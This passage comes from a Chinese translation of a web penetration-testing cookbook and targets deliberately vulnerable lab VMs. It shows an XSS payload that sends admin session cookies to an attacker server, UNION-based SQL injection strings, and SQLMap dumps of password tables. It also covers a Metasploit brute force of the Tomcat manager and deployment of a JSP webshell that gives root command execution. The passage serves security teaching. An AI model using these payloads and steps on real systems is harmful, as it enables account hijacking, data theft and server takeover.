    
    
3.  点击`Save`，之后点击`Close`并在攻击者的浏览器中重新加载页面。

    
    
    现在我们通过持久性 XSS 攻击劫持了管理员的会话。
    
### 工作原理

简单来说，我们使用应用中的 XSS 漏洞来将会话 Cookie 发送给远程服务器，通过 JavaScript HTTP 请求。这个服务器被配置用于储存会话 Cookie，之后，我们获得一个会话 ID，并把它移植到不同的浏览器中来劫持验证用户的会话。下面，我们来看看每一步如何工作。

我们编写的 PHP 文件用于在 XSS 攻击执行时保存收到的 COokie。

我们输入的评论是一个脚本，使用JavaScript 的XMLHttpRequest 对象来向我们的恶意服务器发送 HTTP 请求，这个请求由两步构建：

```js
xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true );
```

我们使用 GET 方法打开请求，向`http://192.168.56.1/savecookie.php` URL添加叫做`cookie`的参数，它的值储存在`document.cookie`中，它是 JavaScript 中储存cookie值的变量。最后的参数设置为`true`，告诉浏览器这是异步请求，这意味着它不需要等待响应。

```js
xmlHttp.send( null )
```

最后的指令将请求发送给服务器。

在管理员登录并查看包含我们所发送评论的页面之后，脚本会执行，并且管理员的会话 cookie 就储存在我们的服务器中了。

最后，一旦我们获得了有效用户的会话 cookie，我们可以在浏览器中替换我们自己的会话 cookie，之后重新加载页面来执行操作，就像我们是这个用户一样。

### 更多

不仅仅是保存会话 Cookie 到文件，恶意服务器也可以使用这些cookie 来向应用发送请求来冒充正常用户，以便执行操作，例如添加或删除评论、上传图片或创建新用户，甚至是管理员。

## 6.7 逐步执行基本的 SQL 注入

我们在第四章了解了如何检测 SQL 注入。这个秘籍中，我们会利用这个注入，并提取数据库的信息。

### 操作步骤

1.  我们已经知道了 DVWA 存在SQL 注入的漏洞。所以我们使用 OWASP Mantra 登录，之后访问` http://192.168.56.102/dvwa/vulnerabilities/ sqli/`。

2.  在检测 SQL 注入存在之后，下一步就是查询，准确来说就是结果有多少列。在 ID 框中输入任何数字之后点击`Submit`。

3.  现在，打开 HackBar（按下F9）并点击`Load URL`。地址栏中的 URL 应该出现在 HackBar 内。

4.  在 HackBar 中，我们将`id`参数的值替换为` 1' order by 1 -- '`，并点击`Execute`。

5.  我们通过执行请求，持续增加`order`数字后面的值，直到发生错误。这里例子中，它在`3`的时候发生。

    
    
6.  现在，我们知道了请求由两列。让我们尝试是否能使用 UNION 语句来提取一些信息。现在将`id`的值设为`1' union select 1,2 -- '`并点击`Excecute`。

    

7.  这意味着我们可以在 UNION 查询中请求两个值。那么试试 DBMS 的版本和数据库用户如何呢？将`id`设为`1' union select @@version,current_user() -- '`并点击`Execute`。

    

8.  让我们查找一些有关的东西，例如应用的用户。首先，我们需要定位用户表，将`id`设置为`1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '`。

    
    
9.  好的，我们知道了数据库（或Schema）叫做`dvwa`，我们要查找的表叫做`users`。因为我们只有两个地方来设置值，我们需要知道的哪一列对我们有用。将`id`设置为`1' union select column_name, 1 FROM information_schema.tables WHERE table_name = 'users' -- '`。

    
    
0.  最后，我们确切知道了要请求什么，将`id`设为` 1' union select user, password FROM dvwa.users  -- '`。

    
    
    在`First name`字段中，我们得到了应用的用户名，在`Surname`字段汇总，我们得到了每个用户的密码哈希。我们可以将这些哈希复制到我呢本文呢减重，并且尝试使用 John the Ripper 或我们喜欢的密码破解器来破解。
    
### 工作原理

在我们的第一次注入，` 1' order by 1 -- ' `到`1' order by 3 -- ' `中，我们使用 SQL 语言的特性，它允许我们通过特定的字段或类，使用它的编号来排列结果。我们用它来产生错误，于是能够知道查询一共有多少列，便于我们将其用于创建 UNION 查询。

UNION 查询语句用于连接两个拥有相同列数量的查询，通过注入这些我们就可以查询数据库中几乎所有东西。这个秘籍中，我们首先检查了它是否像预期一样工作，之后我们将目标设置为`users`表，并设法获得它。

第一步是弄清数据库和表的名称，我们通过查询`information_schema`数据库来实现，它是 MySQL 中储存所有数据库、表和列信息的数据库。

一旦我们知道了数据库和表的名称，我们在这个表中查询所有列，来了解我们需要查找哪一列，它的结果是`user`和`password`。

最后，我们注入查询来请求`dvwa`数据库的`users`表中的所有用户名和密码。

## 6.8 使用 SQLMap 发现和利用 SQL 注入

我们已经在上一个秘籍中看到，利用 SQL 注入是个繁琐的步骤。SQLMap  是个命令行工具，包含在 Kali 中，可以帮我们自动化检测和利用 SQL 注入。它带有多种技巧，并支持多种数据库。

这个秘籍中，我们会使用 SQLMap 来检测和利用 SQL 注入漏洞，并用它获得应用的用户名和密码。

### 操作步骤

1.  访问` http://192.168.56.102/mutillidae`。

2.  在 Mutillidae 的菜单中，访问`OWASP Top 10 | A1 – SQL Injection | SQLi Extract Data | User Info`。

3.  尝试任何用户名和密码，例如`user`和`password`之后点击`View Account Details`。

4.  登录会失败，但是我们对 URL 更感兴趣。访问地址栏并将完整的 URL 复制到剪贴板。

5.  现在，打开终端窗口，输入下列命令：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=user&password=password&user-info-php-submitbutton=View+Account+Details" -p username --current-user --currentdb
    ```
    
    你可以注意到，`-u`参数就是所复制的 URL 的值。`-p`告诉 SQLMap 我们打算在用户名参数中查找注入。一旦漏洞被利用，我们想让它获得当前数据库用户名和数据库的名称。我们只打算获得这两个值，因为我们只想判断这个 URL 的`username`参数是否存在 SQL 注入。
    
    
    
6.  一旦 SQLMap 检测到应用所使用的 DBMS，它会询问我们是否跳过检测其它 DBMS 的步骤，以及是否打算包含所有特定系统的测试。即使它们在当前的配置等级和风险之外。这里，我们回答`Ues`来跳过其它系统，以及`No`来包含所有测试。

7.  一旦我们指定的参数中发现了漏洞，SQLMap 会询问我们是否打算测试其它参数，我们回答`No`，之后观察结果：

    
    
8.  如果我们打开获得用户名和密码，类似于我们在上一个秘籍那样，我们需要知道含有这些信息的表名称。在终端中执行下列代码：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp --tables
    ```
    
    
    
    SQLMap 会保存所执行的注入日志，所以第二次攻击会花费更少的时间。你可以看到，我们指定了要提取信息（nowasp）的数据库，并告诉 SQLMap 我们想获取这个数据库的表名称列表。
    
9.  `accounts`表使含有我们想要的信息的表之一。让我们转储内容：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp -T accounts --dump
    ```
    
    
    
    我们现在拥有完整的用户表，并且我们可以看到，这里密码并没有加密，所以我们可以直接使用它们。
    
### 工作原理

SQLMap 会使用 SQL 注入字符串，对给定 URL 和数据的输入进行模糊测试，或者只针对`-p`选项中的特定目标，并且解释其响应来发现是否存在漏洞。不要模糊测试所有输入，最好使用 SQLMap 来利用我们已知存在的注入，并始终尝试缩小搜索过程，通过提供所有可用的信息，例如漏洞参数、DBMS 类型，以及其它。在所有可能性下寻找注入会花费大量时间，并在网络中产生非常大的流量。

这个秘籍中，我们已经知道了用户名参数存在注入漏洞（因为我们使用了 Mutillidae 的注入测试页面）。在第一个攻击中，我们只希望确认注入是否存在，并询问一些非常基本的信息：用户名（`--curent-user`）和数据库名称（`--current-db`）。

在第二个攻击中，我们使用`-D`选项，以及前一次攻击所获得的名称，指定希望查询的数据库，我们也使用`--tables`询问了所包含的表名称。

知道我们希望获得哪个表（`-T accounts`）之后，我们告诉 SQLMap 使用`--dump`转储它的内容。

### 更多

SQLMap 也能够注入 POST 参数中的输入变量。我们只需要添加`--data`选项并附带 POST 数据，例如：

```
--data "username=test&password=test"
```

有时候，我们需要在一些应用中获得身份验证，以便能够访问应用的漏洞 URL。如果是这样，我们可以传递有效的会话 Cookie给 SQLMap， 使用`--cookie`选项：

```
--cookie "PHPSESSID=ckleiuvrv60fs012hlj72eeh37" 
```

这在测试Cookie值的注入时也非常有用。

另一个有趣的特性是，使用` --sql-shell`选项，它可以为我们提供 SQL shell，其中我们可以执行 SQL 查询，就像我们直接连接到数据库那样。或更有趣的是，我们可以使用` --osshell`在数据库服务器中执行系统命令（在注入 MSSQL 服务器时特别有用）。

为了了解 SQLMap 拥有的所有选项和特性，你可以执行：

```
sqlmap --help
```

### 另见

Kali 包含了用于检测和利用 SQL 注入漏洞的其它工具，它们能够用于代替或配合 SQLMap：

+   sqlninja：非常流行的工具，为利用 MSSQL 服务器而设计。
+   Bbqsql：Python 编写的 SQL 盲注框架。
+   jsql：基于 Java 的工具，带有完全自动化的 GUI，我们只需要输入 URL 并按下按钮。
+   Metasploit：它包含不同 DBMS 的多种 SQL 注入模块。

## 6.9 使用 Metasploit 攻击 Tomcat 的密码

Apache Tomcat，是世界上最广泛使用的 Java Web 服务器之一。带有默认配置的 Tomcat 服务器非常容易发现。发现暴露 Web 应用管理器的服务器也非常容易，它是一个应用，允许管理员启动、停止、添加和删除服务器中的应用。

这个秘籍中，我们会使用 Metasploit 模块来执行 Tomcat 服务器上的字典攻击来获得管理器应用的访问。

### 准备

在我们开始使用 Metasploit 之前，我们需要在 root 终端中开启数据库服务：

```
service postgresql start
```

### 操作步骤

1.  启动 Metasploit 的控制台。

    ```
    msfconsole
    ```

2.  启动之后，我们需要加载合适的模块，在`msf>`提示符之后键入下列代码：

    ```
    use auxiliary/scanner/http/tomcat_mgr_login 
    ```
    
3.  我们可能打算查看它使用什么参数：

    ```
    show options
    ```
    
    
    
4.  现在，我们设置目标主机：

    ```
    set rhosts 192.168.56.102
    ```
    
5.  为了使它更快，但是不要太快，我们增加线程数：

    ```
    set threads 5
    ```
    
6.  同时，我们不希望让我们的服务器由于太多请求而崩溃，所以我们降低爆破的速度：

    ```
    set bruteforce_speed 3 
    ```
    
7.  剩余参数刚好适用于我们的情况，让我们执行攻击：

    ```
    run
    ```
    
    
    
    在一些尝试中失败之后，我们发现了有效的密码，它使用`[+]`标记。
    
    
    
### 工作原理

通常 Tomcat 使用 TCP 8080，它的管理器应用位于`/manager/html`中。这个应用使用基本的 HTTP 验证。我们刚刚使用的 Metasploit 辅助模块（`tomcat_mgr_login`）有一些值得提及的配置项：

+   `BLANK_PASSWORDS`：对每个尝试的用户添加空密码测试。

+   `PASSWORD`：如果我们打算测试多个用户的单一密码，或者添加列表中没有包含的项目，这就很实用。

+   `PASS_FILE`：用于测试的密码列表。

+   `Proxies`：如果我们需要通过代理来访问我们的目标，或者避免检测，就用这个选项。

+   `RHOSTS`：单个主机，或多个（使用空格分隔），或者我们想要测试的主机列表文件（`/path/to/file/with/hosts`）。

+   `RPORT`：Tomcat 所使用的 TCP 端口。

+   `STOP_ON_SUCCESS`：发现有效密码之后停止尝试。

+   `TARGERURI`：主机中管理器应用的位置。

+   `USERNAME`指定特殊的用户名来测试，它可以被单独测试，或者添加到定义在`USER_FILE`的列表中。

+   `USER_PASS_FILE`：包含要被测试的“用户名 密码”组合的文件。

+   `USER_AS_PASS`：将每个列表中的用户名作为密码尝试。

### 另见

这个攻击也可以由 Hydra 执行，使用`http-head`作为服务，`-L`选项来加载用户列表，`-P`选项来加载密码。

## 6.10 使用 Tomcat 管理器来执行代码

上一个秘籍中，我们获得了 Tomcat 管理器的身份认证，并提到了它可以让我们在服务器中执行代码。这个秘籍中，我们会使用它来登录管理器并上传新的应用，这允许我们在服务器中执行操作系统命令。

### 操作步骤

1.  访问`http://192.168.56.102:8080/manager/html`。

2.  被询问用户名和密码时，使用上一个秘籍中获得的：`root`和`owaspbwa`。

    

3.  一旦进入了管理器，寻找` WAR file to deploy `并点击`Browse`按钮。

4.  Kali 在`/usr/share/laudanum`包含了一些 webshall，在这里浏览它们并选择文件`/usr/share/laudanum/jsp/cmd.war`。

    
    
5.  加载之后点击`Deploy`。

    

6.  确保存在新的叫做`cmd`的应用。

    
    
7.  让我们试一试，访问`http://192.168.56.102:8080/cmd/cmd.jsp`。

8.  在文本框中尝试命令，例如`ifconfig`：

    
    
9.  我们可以看到，我们可以执行命令，但是为了弄清楚我们拥有什么用户和什么权限，尝试`whoami`命令：

    
    
    我们可以看到，Tomcat 在这台服务器中运行在 root 权限下。这意味着我们这里拥有它的全部控制权，并且能够执行任何操作，例如创建或删除用户，安装软件，配置操作系统选项，以及其它。
    
### 工作原理

一旦我们获得了 Tomcat 管理器的身份认证，攻击过程就相当直接了。我们仅仅需要足以让我们上传它的应用。Laudanum 默认包含在 Kali 中，是多种语言和类型的 webshell 的集合，包括 PHP、ASP、 ASP.NET 和 JSP。对渗透测试者来说，什么比 webshell 更有用呢？

Tomcat 能够接受以 WAR（Web 应用归档）格式打包的 Java Web 应用并将其部署到服务器上。我们刚刚使用了这一特性来上传 Laudanum 中的 webshell。在它上传和部署之后，我们浏览它并且通过执行系统命令，我们发现我们拥有这个系统的 root 访问。
